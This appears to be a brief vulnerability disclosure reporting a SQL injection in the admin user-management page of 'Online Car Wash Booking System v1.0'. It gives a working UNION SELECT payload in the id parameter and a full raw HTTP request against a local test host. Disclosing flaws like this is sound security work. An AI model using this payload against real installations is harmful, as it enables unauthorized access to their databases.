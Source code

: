 # Online Car Wash Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: /ocwbs/admin/?page=user/manage_user&id=

Vulnerability location: /ocwbs/admin/?page=user/manage_user&id=, id

[+] Payload: /ocwbs/admin/?page=user/manage_user&id=-2%27%20union%20select%201,2,3,4,5,6,7,8,9,10--+ // Leak place ---> id

```sql
GET /ocwbs/admin/?page=user/manage_user&id=-2%27%20union%20select%201,2,3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/169299978-16a65086-d3be-4ec7-abf5-d8970bb4b197.png)

![image](https://user-images.githubusercontent.com/54017627/169299856-fbd37236-28f4-4f51-92b0-4acd2f97609a.png)
